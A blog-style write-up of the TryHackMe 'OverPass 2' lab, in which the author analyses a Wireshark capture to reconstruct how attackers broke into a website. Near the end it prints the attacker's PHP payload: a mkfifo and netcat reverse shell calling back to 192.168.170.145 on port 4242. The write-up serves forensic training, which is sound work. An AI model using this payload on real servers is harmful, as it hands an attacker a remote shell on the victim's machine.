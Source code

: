 ```yaml
---
layout: single
title: OverPass 2 - TryHackMe (OSCP STYLE)
excerpt: "In this challenge, we put ourselves in the shoes of a cybersecurity analyst to investigate an attack on our network. By analyzing a Wireshark packet capture, we will discover how the attackers gained access, and the most interesting part...we'll hack them back."
date: 2023-05-14
classes: wide
header:
  teaser: /assets/images/overpass-2/portada.jpeg
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - Linux
  - Wireshark
  - BackDoor
  - Enumerate
  - HashCat
---
```


## Forensics - PCAP Analysis

This time we put ourselves in the shoes of a cybersecurity analyst (being one myself, it won't be too difficult). OverPass has been hacked and the only thing we have to understand the attack is a capture of the network traffic, which we must analyze to understand the context of the attack.

If we don't filter the traffic capture, we end up with 3896 packets. However, to have a better understanding of the context, we'll filter by the HTTP traffic of our website to analyze the requests it has received

We found 13 HTTP packets that we are going to analyze carefully to understand the context.

![1]

At first glance, what we observe is that the requests are coming from the source IP 192.168.170.145

Answering a little to the first question of the lab, we indicate that the development route is the one that has been used to carry out the attack

![2]

The next question is related to finding out what payload the attacker used to gain access. This took me quite some time to figure out since I hadn't worked at such a deep level with Wireshark before.

If we right-click on the event we are interested in, there is an option that allows us to follow the TCP stream. If we do this, a window will open with expanded information about the request

![3]
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
